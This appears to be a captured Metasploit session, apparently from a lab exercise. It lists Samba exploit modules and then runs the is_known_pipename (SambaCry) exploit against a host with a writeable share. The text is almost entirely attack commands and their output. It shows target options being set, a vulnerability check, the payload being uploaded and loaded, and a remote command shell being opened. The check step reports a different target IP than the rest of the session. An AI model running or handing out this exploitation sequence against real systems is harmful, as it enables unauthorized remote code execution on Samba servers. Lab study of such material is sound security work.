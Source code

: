 ```
   10  exploit/osx/samba/trans2open                 2003-04-07       great      No     Samba trans2open Overflow (Mac OS X PPC)
   11  exploit/solaris/samba/lsa_transnames_heap    2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   12  exploit/solaris/samba/trans2open             2003-04-07       great      No     Samba trans2open Overflow (Solaris SPARC)
   13  exploit/windows/http/sambar6_search_results  2003-06-21       normal     Yes    Sambar 6 Search Results Buffer Overflow
```

```
msf5 > use exploit/linux/samba/is_known_pipename
msf5 exploit(linux/samba/is_known_pipename) > show options

Module options (exploit/linux/samba/is_known_pipename):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   RHOSTS          192.59.47.3      yes       The target address range or CIDR identifier
   RPORT           445              yes       The SMB service port (TCP)
   SMB_FOLDER                       no        The directory to use within the writeable SMB share
   SMB_SHARE_NAME                   no        The name of the SMB share containing a writeable directory


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Interact)
```

```
msf5 exploit(linux/samba/is_known_pipename) > check

[+] 192.89.91.3:445 - Samba version 4.1.17 found with writeable share 'exploitable'
[*] 192.89.91.3:445 - The target appears to be vulnerable.
msf5 exploit(linux/samba/is_known_pipename) > info
```

```
msf5 exploit(linux/samba/is_known_pipename) > run

[*] 192.59.47.3:445 - Using location \\192.59.47.3\exploitable\tmp for the path
[*] 192.59.47.3:445 - Retrieving the remote path of the share 'exploitable'
[*] 192.59.47.3:445 - Share 'exploitable' has server-side path '/
[*] 192.59.47.3:445 - Uploaded payload to \\192.59.47.3\exploitable\tmp\QXzAIroD.so
[*] 192.59.47.3:445 - Loading the payload from server-side path /tmp/QXzAIroD.so using \\PIPE\/tmp/QXzAIroD.so...
[-] 192.59.47.3:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 192.59.47.3:445 - Loading the payload from server-side path /tmp/QXzAIroD.so using /tmp/QXzAIroD.so...
[+] 192.59.47.3:445 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
[*] Command shell session 1 opened (192.59.47.2:40283 -> 192.59.47.3:445) at 2023-02-02 11:06:45 +0000

ls
pwd
/tmp
^Z
Background session 1? [y/N]  y
```
